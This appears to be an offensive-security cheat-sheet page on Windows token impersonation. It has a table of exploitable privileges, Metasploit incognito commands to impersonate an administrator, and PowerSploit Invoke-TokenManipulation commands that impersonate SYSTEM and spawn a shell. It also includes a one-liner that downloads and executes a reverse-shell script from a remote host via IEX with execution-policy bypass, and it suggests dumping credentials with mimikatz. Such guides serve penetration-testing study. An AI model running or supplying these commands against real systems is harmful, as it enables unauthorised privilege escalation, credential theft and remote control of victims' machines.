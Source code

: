 # Token Impersonation

#### <mark style="color:green;">Token impersonation is a technique through which a Windows local administrator could steal another user’s security token in order to impersonate and effectively execute commands as that user.</mark>

That are certain privileges in Windows that, if enabled, could lead to an attacker escalating privileges to SYSTEM or any other user account with an active and valid token on that system, through various tools that have been designed to specifically exploit this vulnerability.

### <mark style="color:orange;">**Exploitable Privileges**</mark>

Certain privileges can be exploited to either escalate privileges directly to SYSTEM or to perform actions that are normally restricted. The privileges listed below can grant direct admin access when exploited:

| Privilege            | Impact | Tool              |
| -------------------- | ------ | ----------------- |
| SeAssignPrimaryToken | Admin  | 3rd party tool    |
| SeImpersonate        | Admin  | 3rd party tool    |
| SeBackupPrivilege    | Admin  | 3rd party tool    |
| SeBackup             | Threat | Built-in commands |
| SeCreateToken        | Admin  | 3rd party tool    |
| SeDebug              | Admin  | PowerShell        |
| SeLoadDriver         | Admin  | 3rd party tool    |
| SeRestore            | Admin  | PowerShell        |
| SeTakeOwnership      | Admin  | Built-in commands |
| SeTcb                | Admin  | 3rd party tool    |

full list is here:

{% embed url="https://github.com/gtworek/Priv2Admin" %}

### <mark style="color:orange;">Using Metasploit</mark>

in your meterpreter shell load incognito module:

```
load incognito
```

list available tokens:

```
list_tokens -u
```

Impersonate Administrator:

```
impersonate_token megacorp\\administrator
```

### <mark style="color:orange;">Invoke-TokenManipulation</mark>

{% embed url="https://github.com/PowerShellMafia/PowerSploit/blob/c7985c9bc31e92bb6243c177d7d1d7e68b6f1816/Exfiltration/Invoke-TokenManipulation.ps1" %}

Invokes token impersonation as a domain user. If this doesn't work you can try impersonating SYSTEM and then dumping credentials using mimikatz.

```powershell
Invoke-TokenManipulation -ImpersonateUser -Username "lab\domainadminuser"

Invoke-TokenManipulation -ImpersonateUser -Username "NT AUTHORITY\SYSTEM"

Get-Process wininit | Invoke-TokenManipulation -CreateProcess "cmd.exe"
```

As a replacement for the last command you could do, but be vary of special characters in the command like `"` and `'`

```powershell
Get-Process wininit | Invoke-TokenManipulation -CreateProcess "Powershell.exe -nop -exec bypass -c \"IEX (New-Object Net.WebClient).DownloadString('http://10.7.253.6:82/Invoke-PowerShellTcp.ps1');\"};"
```

## <mark style="color:red;">Other Techniques</mark>

{% embed url="https://steflan-security.com/linux-privilege-escalation-token-impersonation" %}

{% embed url="https://decoder.cloud/2017/12/23/the-lonely-potato" %}

## <mark style="color:red;">Mitigation & Detection</mark>&#x20;

{% embed url="https://attack.mitre.org/techniques/T1134/003" %}
